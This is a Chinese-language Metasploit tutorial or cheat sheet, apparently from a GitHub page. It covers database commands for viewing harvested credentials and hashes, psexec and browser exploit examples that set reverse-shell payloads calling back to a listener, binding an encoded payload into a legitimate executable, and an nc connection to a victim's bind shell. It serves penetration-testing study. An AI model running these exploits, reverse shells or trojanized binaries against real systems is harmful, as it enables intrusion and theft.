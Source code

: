 ## 数据库操作
- db_rebuild_cache —— 在数据库添加索引，加快搜索速度
- db_disconnect —— 断开当前数据库连接
- db_connect —— 连接数据库 —— db_connect <user:pass>@<host:port>/<database>（或者指定配置文件完整路径，/usr/share/metasploit-framework/config/database.yml）
- db_nmap —— 集成nmap，扫描结果会保存在数据库中 —— 参数和nmap参数一样 
> 1. 查询数据库主机，hosts 123.57.251.23
> 2. 搜索, hosts -S linux
> 3. 端口信息, services -c port(要显示的列) -p 80(要搜索的端口)
- creds —— 查看获取到的登录的账号密码
- vulns —— 查看数据库中已查询到的主机漏洞信息
- loot —— 查看获取到的哈希值信息
- db_export —— 数据库导出 —— db_export -f xml /home/kali/test.xml
- db_import —— 数据库导入 —— db_import 文件名

## Exploit模块
### Active exploits（主动exploit）
> 利用服务器开放端口漏洞
- 实例：利用psexec远程执行漏洞攻击windows
```
use exploit/windows/smb/psexec      //使用Active exploit模块
set RHOST 192.168.126.129       //配置被攻击者Ip地址
set PAYLOAD windows/shell/reverse_tcp   //配置payload
set LHOST 192.168.1.1       //配置接收反弹shell的主机地址（本机地址）
set LPORT 4444      //配置接收反弹shell的主机端口
set SMBUSER user1   //配置被攻击者的管理员账号
set SMBPASS pass1   //配置被攻击者的管理员密码
exploit     //执行
```

### Passive exploits（被动exploit）
> 利用客户端程序漏洞
- 实例：利用ani_loadimage_chunksize模块攻击windows
```
use exploit/windows/browser/ani_loadimage_chunksize
set SRVHOST 192.168.126.131   //设置网站地址
set URIPATH /       //设置网站路径
set PAYLOAD windows/shell/reverse_tcp   //设置payload
set LHOST 192.168.1.1       //设置监听地址
set LPORT 4444              //设置监听端口
exploit
```

### 生成payload
- search shell_bind_tcp       //搜索payload
- use 40      //选择要使用的payload
- show options    //查看需要设置的参数，注意：在payload中，LPORT表示本地（被攻击者）要开放的端口，RHOST表示允许获取shell的远程主机IP
- generate    //生成16进制payload 
> 1. generate -b '\x00\xff'可以过滤掉坏字符）
> 2. generate -e x86/nonalpha  —— 手动指定encoder
> 3. generate -b '\x00' -t exe -e x86/shikata_ga_nai -i 5 -k -x /usr/share/windows-binaries/radmin.exe -f /root/1.exe
> 4. -b 排除坏字符，-t 输出什么格式，-e 指定encoder，-i 编码几轮，-k 不产生新的进程，-x 可以把payload绑定到的模板，-f /root/1.exe。
- nc 192.168.1.114 4444 —— 被攻击者点击文件后，开放4444端口，直接连接即可
- NOP(no-operation/Next Operation（无任何操作）)
> 1. EIP返回到存储NOP sled的任意地址时将递增，最终导致shellcode执行
> 2. generate -s 14（给payload加上14字节的nop前缀）
